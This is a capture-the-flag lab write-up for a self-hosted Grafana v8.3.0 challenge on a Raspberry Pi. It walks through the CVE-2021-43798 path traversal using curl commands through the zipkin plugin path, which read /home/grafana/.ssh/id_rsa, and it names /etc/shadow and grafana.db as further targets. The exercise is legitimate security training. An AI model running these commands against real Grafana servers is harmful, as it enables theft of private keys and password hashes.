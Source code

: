 ## Outdated software - Grafana 2

### Scenario 

Grafana verison has changed, how about this time, is it secure?

There's no login provided for this challenge, but do we even need it?

### Prerequisites

Raspberry Pi

Cloned CTF-pi onto your Raspi.


### Objective

Run within this directory on Raspi: `docker compose up --build -d` (Using remote shell/physical keyboard and mouse)

`hostname -I` to find out which IP the service is running on and visit it in your browser. Your main computer or even a phone can access this, as long as they are within the same network as Raspberry Pi.

Which port is Grafana running on by default? Find out.

Find the Grafana version.

Find an existing vulnerability and exploit it.

There's plenty of sensitive files in Linux, find which one contains the flag.

Once you have found the flag check if they match: `answers/flag.txt`.


### Steps to complete

Google reveals that default Grafana port is 3000, and `hostname -I` reveals the IP, in my case the address to the service is: `10.10.10.67:3000`.

Enter this into your URL bar of your browser and you land on Grafana login page. 

We don't know the username or password, how do we find the version? I found them from page source! "subTitle":"Grafana v8.3.0

Google for Grafana exploits for the verion it is currently running on.

https://vulncheck.com/blog/grafana-cve-2021-43798

Made script that does everything automatically: https://www.exploit-db.com/exploits/50581

I ran this:
```
curl 'http://10.10.10.67:3000/public/plugins/zipkin/../../../../../../../../<path>/<filename>' --path-as-is --output text.txt

```
There's file's like /etc/passwd; /etc/shadow ; grafana configuration files ; grafana.db ; /home/grafana/.ssh/id_rsa, let's try the last one.

We can read the file contents from the saved `text.txt` file: `cat text.txt`

```
curl 'http://10.10.10.67:3000/public/plugins/zipkin/../../../../../../../../home/grafana/.ssh/id_rsa' --path-as-is --output text.txt

```

What we just did is arbitrary path traversal, the user can input however many ../ they want so they get to the root directory, there's plenty of sensitive files like databases or device users with their password hashes, also private ssh keys, if attacker can reach these, then there's a high chance they can take control of everything on the Rasperry Pi in this case.

### Cleaning up

`docker compose down`